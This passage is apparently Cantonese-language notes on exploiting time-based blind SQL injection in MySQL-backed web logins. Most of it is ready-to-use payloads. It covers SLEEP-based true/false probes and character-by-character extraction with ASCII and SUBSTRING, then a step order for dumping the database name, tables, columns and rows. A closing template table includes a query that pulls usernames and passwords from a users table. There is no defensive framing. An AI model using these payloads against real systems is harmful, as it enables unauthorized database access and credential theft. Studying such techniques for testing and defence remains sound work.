 * 試下：

```
admin' AND IF(1=1, SLEEP(3), 0)-- -
```

同

```
admin' AND IF(1=2, SLEEP(3), 0)-- -
```

👉 比較回應時間，慢就代表成功。

***

#### 3. 確定可以利用的 payload 模式

* 基本範例：

```
admin' AND IF(ASCII(SUBSTRING((SELECT database()),1,1))=97, SLEEP(3), 0)-- -
```

👉 用來猜第一個字元係唔係 'a' (ASCII 97)。

***

#### 4. 編寫爆破邏輯（或者用 script）

1️⃣ 字符位置用 `SUBSTRING()`\
2️⃣ 字元 ASCII 值用 `ASCII()`\
3️⃣ 比較結果時觸發 `SLEEP(3)`\
範例：

```
IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 1, 1))=116, SLEEP(5), 0)
```

* 呢條語句係爆 `table_name` 嘅第一個字元係咪 `t`（ASCII 116）

***

#### 5. 開始爆破順序

1️⃣ 先爆出 **database()**\
2️⃣ 爆出 **所有表名 (information\_schema.tables)**\
3️⃣ 根據表名，爆出 **所有欄位名 (information\_schema.columns)**\
4️⃣ 最後用 LIMIT 一個一個爆資料內容。

***

#### 6. 參考常用 SQLi 爆破模板

| 爆 database 名 | `SELECT database()`                                                                            |
| ------------ | ---------------------------------------------------------------------------------------------- |
| 爆當前 user     | `SELECT user()`                                                                                |
| 爆所有 table    | `SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()` |
| 爆欄位名         | `SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='users'`    |
| 爆帳號密碼        | `SELECT concat(username,0x3a,password) FROM users`                                             |
